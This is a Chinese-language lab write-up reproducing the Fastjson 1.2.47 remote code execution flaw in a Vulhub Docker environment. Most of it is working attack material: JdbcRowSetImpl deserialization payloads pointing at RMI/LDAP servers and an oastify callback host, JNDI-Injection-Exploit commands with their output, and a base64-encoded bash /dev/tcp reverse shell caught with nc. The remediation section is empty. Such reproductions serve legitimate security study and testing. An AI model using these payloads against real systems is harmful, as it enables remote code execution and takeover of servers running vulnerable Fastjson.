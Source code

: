 # Fastjson_1.2.47_rce

| 说明     | 内容                         |
| -------- | ---------------------------- |
| 漏洞编号 |                              |
| 漏洞名称 | Fastjson_1.2.47_远程执行漏洞 |
| 漏洞评级 |                              |
| 影响范围 |                              |
| 漏洞描述 |                              |
| 修复方案 |                              |



### 1.1、漏洞描述

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.47

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.47-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到一个json对象被返回

![image-20230908152510843](./imgs/image-20230908152510843.png)

将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析

发送测试数据：

```json
{"name":"hello", "age":20}
```

![image-20230908154415076](./imgs/image-20230908154415076.png)



#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测

![image-20230908154816188](./imgs/image-20230908154816188.png)

POC：

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://s0tgwxk05ll1qvmz0lwr27u0prvhj6.oastify.com/aaa",
        "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试

![image-20230908155219769](./imgs/image-20230908155219769.png)

![image-20230908155159842](./imgs/image-20230908155159842.png)

#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器



在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/demo" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/demo
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fuk3fq
ldap://192.168.80.141:1389/fuk3fq
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/slgipa
ldap://192.168.80.141:1389/slgipa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/zsjp7n

----------------------------Server Log----------------------------
2023-09-08 03:53:56 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 03:53:56 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 03:53:57 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908155413006](./imgs/image-20230908155413006.png)

发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.80.141:1099/slgipa",
        "autoCommit":true
    }
}
```

![image-20230908155714367](./imgs/image-20230908155714367.png)

验证：

![image-20230908155512044](./imgs/image-20230908155512044.png)

### 1.5、深度利用

#### 1、反弹Shell

构造反弹shell，进行base64编码

```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1
```



![image-20230908160007728](./imgs/image-20230908160007728.png)

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fd5cfs
ldap://192.168.80.141:1389/fd5cfs
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/flbdik
ldap://192.168.80.141:1389/flbdik
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/m8yxp6

----------------------------Server Log----------------------------
2023-09-08 04:02:36 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 04:02:36 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 04:02:36 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908160300497](./imgs/image-20230908160300497.png)

POC:
```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.80.141:1389/fd5cfs",
        "autoCommit":true
    }
}
```

![image-20230908160403275](./imgs/image-20230908160403275.png)

获得Shell

![image-20230908160425477](./imgs/image-20230908160425477.png)



### 1.6、修复建议